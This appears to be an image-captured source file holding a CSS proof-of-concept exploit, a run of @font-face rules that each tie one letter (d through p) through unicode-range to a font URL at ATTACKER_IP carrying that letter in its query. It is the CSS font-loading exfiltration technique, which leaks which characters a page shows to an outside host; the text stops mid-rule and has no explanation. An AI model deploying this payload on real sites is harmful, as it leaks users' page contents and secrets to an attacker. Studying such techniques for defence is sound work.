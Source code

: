 @font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=d);
    unicode-range: U+0064;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=e);
    unicode-range: U+0065;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=f);
    unicode-range: U+0066;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=g);
    unicode-range: U+0067;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=h);
    unicode-range: U+0068;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=i);
    unicode-range: U+0069;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=j);
    unicode-range: U+006A;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=k);
    unicode-range: U+006B;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=l);
    unicode-range: U+006C;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=m);
    unicode-range: U+006D;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=n);
    unicode-range: U+006E;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=o);
    unicode-range: U+006F;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=p);
    unicode-range: U+0070;